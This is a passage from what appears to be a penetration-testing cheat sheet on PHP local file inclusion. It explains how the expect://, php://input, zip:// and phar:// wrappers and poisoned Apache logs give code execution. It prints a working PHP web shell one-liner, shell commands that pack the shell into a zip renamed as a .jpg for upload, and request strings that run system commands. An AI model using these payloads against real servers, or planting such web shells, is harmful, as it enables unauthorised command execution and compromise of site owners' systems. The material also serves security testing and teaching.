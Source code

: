 *expect*  

The PHP *expect://* wrapper allows execution of system commands but is not
enabled by default.

```
php?page=expect://whoami
```

*input*  

The PHP *input://* wrapper allows for the injection and execution of PHP code
given in the POST request body:

```
POST .../?page=php://input&cmd=whoami
...
<?php system($_GET['cmd']); ?>
```

*zip / phar*  

The *zip://* and *phar://* wrappers can be used to achive code execution if a
zip or phar archive can be upload to the server:

```
# <pre><?php system($_GET['cmd']); ?></pre>
echo "<pre><?php system(\$_GET['cmd']); ?></pre>" > payload.php;  
zip payload.zip payload.php;   
# As the file extension does not matter, a file with a jpg extension can be uploaded
mv payload.zip shell.jpg;    

# zip://<PATH_TO_UPLOADED_FILE>%23<FILE_INSIDE_ZIP>&cmd=<CMD>
?page=zip://shell.jpg%23payload&cmd=whoami
?page=zip://shell.jpg%23payload.php
```

###### Log files contamination

Code can be injected into log files, principle known as log files
contamination, in order to be executed whenever accessing the log files through
a LFI.

On Linux, the log files of the Apache, SSH, FTP or SMTP services can be
targeted.

*Apache*

The server access log records all requests processed by the server and the
server error log contains any errors encountered while processing requests.

The access log may record the request GET parameters as well as the User-Agent
and Referer HTTP headers.

Depending on the configured level of error logging enabled on the server, the
error log files may record the URI for missing requested resources (HTTP
error 404).

Possible `httpd.conf` locations, in which access, error or custom log files
locations may be defined:
